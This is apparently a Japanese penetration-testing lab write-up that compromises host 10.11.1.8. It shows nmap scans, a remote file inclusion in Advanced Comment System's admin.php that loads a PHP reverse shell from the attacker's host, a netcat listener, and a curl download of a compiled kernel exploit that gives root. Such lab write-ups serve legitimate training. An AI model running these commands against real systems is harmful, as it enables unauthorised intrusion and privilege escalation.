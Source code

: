 ```
nmap -Pn -n -vvv -sV -oA nmap/intial 10.11.1.8
nmap -Pn -sC -sV -p 21,22,25,80,111,139,443,445,631,3306 -oA nmap/base_script 10.11.1.8
nmap -Pn -n -vvv -T4 --script=vuln -oA nmap/vuln 10.11.1.8
nmap -Pn -p- -T4 -oA nmap/all_port 10.11.1.8
```
robots.txt確認   
BurpSuiteで通信を確認   
`/internal/advanced_comment_system`という新しいディレクトリ名を発見するのでgobusterで検索すると`admin.php`を発見する   
searchsploitで「Advanced comment system」を検索する   
9623.txtの中にexploitのやり方が書いてある    
php-reverse-shellの内容を書き換える    
portは443にしないと帰ってこなかった    
```
https://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://192.168.119.243:80/php-reverse-shell.php?%00
```
リスナーにリバースシェルが返ってくる
```
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.243] from (UNKNOWN) [10.11.1.8] 33913
Linux phoenix 2.6.9-89.EL #1 Mon Jun 22 12:19:40 EDT 2009 i686 athlon i386 GNU/Linux
 12:54:22 up 19:16,  0 users,  load average: 10.44, 7.95, 5.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-3.00$
```
linpeas.batを実行する
カーネルのバージョンが低いのでsearchsploitで検索してみる
```
searchsploit linux kernel 2.6 centos
```
32ビットバージョンをコンパイルしなければならないのでライブラリを追加する
```
sudo apt-get install gcc-9-base libgcc-9-dev libc6-dev
sudo apt-get install gcc-multilib
```
Kali側でコンパイルする
```
gcc -m32 -Wl,--hash-style=both -o exploit2 9542.c
```
 ターゲット端末にダウンロードする
 ```
curl -O http://192.168.119.243:80/exploit2
```
実行権限を与えて実行する
エラーが出るが＃プロンプトが帰ってきてrootに権限昇格できる
```
sh-3.00$ chmod +x exploit2
sh-3.00$ ./exploit2
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# cd /root
sh-3.00# cat proof.txt
f56a325ef00d4553a4046b7eacc5d667
sh-3.00# ifconfig
```

